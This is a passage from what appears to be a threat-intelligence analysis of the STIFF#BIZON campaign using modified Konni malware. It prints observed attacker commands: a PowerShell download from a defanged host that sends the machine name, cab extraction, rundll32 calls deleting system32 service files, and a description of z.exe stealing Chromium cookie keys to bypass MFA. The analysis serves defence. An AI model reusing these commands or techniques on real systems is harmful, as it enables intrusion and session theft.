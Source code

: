  



Service installation for persistence


powershell -ep bypass -command “$url=’hxxp://547857[.]c1[.]biz/dn.php?name=’+[System.Environment]::MachineName
+’&prefix=mm’;$rep=(New-Object System.Net.WebClient).DownloadString($url);
$buf=[Convert]::FromBase64String($rep);$fn=’C:\Users\jalston\AppData\Local\Temp\1.cab’;
[System.IO.File]::WriteAllBytes($fn, $buf);”


cmd /c cd /d “C:\Users\REDACTED\AppData\Local\Temp” && dir /a/o-d/s *.*


cmd /c expand %TEMP%\1.cab -f:* %TEMP%


cmd /c cd /d “C:\Users\REDACTED\AppData\Local\Temp” && dir /a/o-d/s *.*


cmd /c del /f /q “C:\Users\REDACTED\1.cab”


cmd /c cd /d “C:\Users\REDACTED\AppData\Local\Temp” && dir /a/o-d/s *.*


cmd /c cd /d “C:\Users\REDACTED\AppData\Local\Temp” && expand 1.cab -f:* %cd%


cmd /c C:\Users\REDACTED\AppData\Local\Temp\food.bat


cmd /c sc query wpcsvc


cmd /c sc query wpcsvc



 



cmd /c rundll32 “%TEMP%\wpnprv.dll”, IIIIIIII 4 “cmd /c del /f /q C:\Windows\system32\wpcsvc.*”


cmd /c rundll32 “%TEMP%\wpnprv.dll”, IIIIIIII 4 “cmd /c del /f /q C:\Windows\system32\wnlsvc.*”


cmd /c tasklist /m wnlsvc.dll



z.exe
This executable is used to dump chromium browser state keys. From Chromium 80+ cookies are encrypted using AES-256 GCM, with a state key which is stored in the Local State file. This state key is encrypted using DPAPI. With the state key, the threat actors are able to decrypt the cookie database offline and use cookies to access services without MFA.
Note: The usage of the letter “z” in z.exe may further indicate Russian origins as “z” has been recently used as a Russian military symbol.

Figure 17

Figure 18
STIFF#BIZON: Stage 4 – Analysis
During this stage of the infection, the attacker has some control over the host and is able to download and execute commands. To further the persistence phase, a modified version of Konni malware appears to have been used.
Attackers were able to download a .cab file containing several files related to the malware:


[1]: APT28: AT THE CENTER OF THE STORM, January, 2017 https://www.mandiant.com/sites/default/files/2021-09/APT28-Center-of-Storm-2017.pdf
[2]: CrowdStrike’s work with the Democratic National Committee: Setting the record straight, June 5, 2020  https://www.crowdstrike.com/blog/bears-midst-intrusion-democratic-national-committee/
[3]: New variant of Konni malware used in campaign targeting Russia, August 23, 2021 https://blog.malwarebytes.com/threat-intelligence/2021/08/new-variant-of-konni-malware-used-in-campaign-targetting-russia/
[4]: Vault 7: CIA Hacking Tools Revealed, March 7, 2017 https://wikileaks.org/ciav7p1/
[5]: PowerShell-Suite/UAC-TokenMagic.ps1, July 15, 2017 https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/UAC-TokenMagic.ps1
[6]: Indicators of Compromise for Malware used by APT28, October 4, 2018 https://www.thecssc.com/wp-content/uploads/2018/10/4OctoberIOC-APT28-malware-advisory.pdf
[7]: A deeper look at hacking groups and malware targeting Ukraine, April 27, 2022 https://therecord.media/a-deeper-look-at-hacking-groups-and-malware-targeting-ukraine/
[13]: North Korea recognizes “DPR” and “LPR”, July 13, 2022 https://ukrainetoday.org/2022/07/13/north-korea-recognizes-dpr/
